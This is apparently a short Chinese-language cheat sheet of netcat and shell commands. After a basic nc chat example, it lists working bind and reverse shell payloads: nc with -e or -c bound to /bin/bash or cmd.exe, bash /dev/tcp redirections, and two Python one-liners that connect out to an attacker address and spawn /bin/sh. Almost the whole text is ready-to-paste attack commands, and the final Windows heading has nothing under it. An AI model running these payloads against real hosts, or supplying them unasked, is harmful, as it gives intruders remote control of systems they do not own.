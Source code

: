 简易聊天
```bash
nc -l -p 8888

nc -vn 192.168.0.11 8888
```

获取shell
```bash
# 参考：https://www.uedbox.com/post/54632
# https://www.secpulse.com/archives/76223.html

##### nc正向shell（正向shell -> 内网服务器之间）
1.目标主机监听：
nc -lvvp 4444 -e /bin/bash # linux
nc -lvvp 4444 -e c:\\WINDOWS\system32\cmd.exe    # win
2.本机连接目标
nc 192.168.1.11 4444


##### nc反向shell
1.本机
nc -lvvp 3333       
2.目标机器执行
nc 192.168.0.111 3333 -c /bin/bash    # Linux
nc 192.168.0.111 -e c:\\WINDOWS\system32\cmd.exe    # win



###### 如果目标主机没有nc，获取反向shell
###### 或者假如nc不支持-c 或者 -e 参数（openbsd netcat）,我们仍然能够创建远程shell
# bash反弹shell
/bin/bash -c bash -i >& /dev/tcp/192.168.41.13/4444 0>&1

# bash反弹shell(TCP)
目标机器： bash -i >& /dev/tcp/192.168.41.133/4444 0>&1
攻击方： nc -lvvp 4444

# bash反弹shell(UDP)
目标机器： bash -i >& /dev/tcp/192.168.41.133/4444 0>&1
攻击方监听： nc -u -lvp 4444




# python反向shell
// 方法一
$ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
 
// 方法二
$ export RHOST="127.0.0.1";export RPORT=12345;python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
# windows python反弹shell
```